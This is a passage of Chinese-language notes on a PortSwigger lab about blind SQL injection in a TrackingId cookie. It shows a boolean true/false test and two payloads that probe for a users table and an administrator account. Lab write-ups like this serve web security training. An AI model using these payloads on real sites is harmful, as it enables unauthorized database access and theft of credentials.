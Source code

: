 在cookie注入and 1=1 发现有welcome字样![image-20250712131619645](portswigger.assets/image-20250712131619645.png)

1=2时没有 说明存在注入	

判断有无users表 **TrackingId=BAUkmwic7zEx9Jvb'and (select 'a' from users limit 1)='a;**

![image-20250712133343573](portswigger.assets/image-20250712133343573.png)

再确认存在用户**TrackingId=BAUkmwic7zEx9Jvb'and (select 'a' from users where username='administrator')='a;**
